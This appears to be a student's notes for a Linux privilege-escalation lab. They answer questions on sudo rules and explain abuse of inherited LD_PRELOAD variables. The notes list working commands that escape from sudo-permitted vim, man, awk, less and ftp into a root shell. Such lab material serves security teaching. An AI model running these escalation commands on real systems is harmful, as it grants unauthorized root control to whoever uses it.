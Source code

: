 ```
How many programs is "user" allowed to run via sudo?

11

One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

apache2

Consider how you might use this program with sudo to gain root privileges without a shell escape sequence. (Play around with certain options the program has!)

#---- get root
sudo vim -c ':!/bin/bash'

sudo man man  
!/bin/bash

sudo awk 'BEGIN {system("/bin/bash")}'

sudo less /etc/profile  
!/bin/sh

sudo ftp  
!/bin/sh

```

## sudo - environment variables

Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):
```
sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at` /home/user/tools/sudo/preload.c`:

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
